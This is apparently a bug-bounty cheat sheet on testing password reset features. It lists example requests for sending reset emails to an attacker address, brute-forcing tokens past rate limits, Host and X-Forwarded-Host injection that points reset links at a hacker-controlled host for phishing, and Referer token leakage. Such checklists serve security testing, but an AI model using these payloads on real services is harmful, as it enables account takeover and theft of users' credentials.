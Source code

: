 # Testing Password Reset Functionalities

## **Include your mail as a second parameter (you might receive the reset link)**
```
POST /reset
[...]
email=victim@tld.xyz&email=hacker@tld.xyz
```

## **Brute force reset token if it a numeric. You can use IP Rotator on Burpsuite to bypass rate limit in case it's IP based**

```
POST /reset
[...]
email=victim@tld.xyz&code=$BRUTE$
```

## **Try to use your reset token on target's account**

```
POST /reset
[...]
email=victim@tld.xyz&code=$YOUR-TOKEN$
```

## **Host Header injection - change website.com to hacker.com (victim might receive the reset link with your host instead of the original website's)**

```
POST /reset
Host hacker.com
[...]
```

*If successful, your POC can contain a crafted link send to the victim, and your host is hosting a fake form that ask the victim for sensitive information.*

## **Try to figure out how the tokens are generated**

- Generated based on TimeStamp
- Generated based on the ID of the user
- Generated based on the email of the user

## **Email delimited with a comma**

```
POST /reset
[...]
email=victim@tld.xyz,attacker@mail.net
```

OR

```
POST /reset
[...]
email=victim@tld.xyz&bccattacker@email.com
```


## **Password reset token leakage via referer** - [POC on Hackerone](https://hackerone.com/reports/342693)

- Request for password reset
- Now check your email you will get your password reset link
- Now just copy the link and open you browser in private mode and paste the link (try disabling all your addons)
- Don't change the password yet. Click any external links like social media links, etc. I have clicked on Twitter
- Capture the request in burp.
- You will find reset token in referer header.


## Reset password - before clicking the link change your account's email

- Issue the reset. 
- But before using the token(from your email inbox), change your email on your account to the one of the victim.
- See if the reset tokens still works(use your imagination)

## Intercept reset request in burp and add more emails 

- Reset password.
- Click on reset link.
- Intercept in burp
- Try adding company emails, or victim email

	OR

- add a new field "password""example123" or "pass":"example123"
- you may end up resetting a user's password.

	
## **still nothing ??**

- Try to figure out what encoding is being used for password reset (eg. json).
- Search for disclosed reports on similar technology/keywords and go from there.


## don't know how to describe this

- Completely remove the token
- change it to 00000000...
- use null/nil value
- try expired token
- try an array of old tokens
- look for race conditions
- change 1 char at the begin/end to see if the token is evaluated
- use unicode char jutzu to spoof email address

- try victim@email.com&attacker@email.com use  %20 or | as separators
- try to register the same mail with different TLD (.eu,.net etc)
- don't add the domain kavish@
- try sqli bypass and wildcard or, %, *
- request smuggler?

- change request method (get, put, post etc) and/or content type (xml<>json) 
- match bad response and replace with good one
- use super long string

## More Tips

- **in JSON array** {"email":["victim@mail.tld","attacker@mail.tld"]}

- Try to add **X-Forwarded-Hostattacker.com**

- **Find emails** https://hunter.io
